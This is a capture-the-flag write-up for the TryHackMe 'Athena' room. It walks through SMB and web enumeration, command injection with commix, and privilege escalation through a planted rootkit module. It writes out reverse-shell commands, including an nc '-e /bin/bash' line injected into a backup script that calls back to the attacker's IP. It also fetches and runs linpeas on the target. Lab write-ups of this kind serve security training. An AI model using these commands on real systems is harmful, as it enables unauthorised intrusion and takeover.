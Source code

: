 # Athena

**Room Link:** [https://tryhackme.com/r/room/4th3n4](https://tryhackme.com/r/room/4th3n4)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/445 - SMB**

**Kali**

```
smbclient \\\\$VICTIM\\public
prompt
mget *
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/80 - HTTP**

#### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

### Shell #1

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/commixproject/commix.git commix
cd commix/
python commix.py -r ../request.txt 
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Shell #2

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

### **LinPeas**

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd /tmp/
wget http://$KALI:82/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
nc -lvnp 1338
```



**Victim**

```
echo '#!/bin/bash' > /usr/share/backup/backup.sh
echo "/usr/bin/nc 10.10.35.7 1338 -e /bin/bash" >> /usr/share/backup/backup.sh
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim(athena)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
cd /mnt/.../secret/
modinfo venom.ko
```

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
kill -57 271
id
```

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

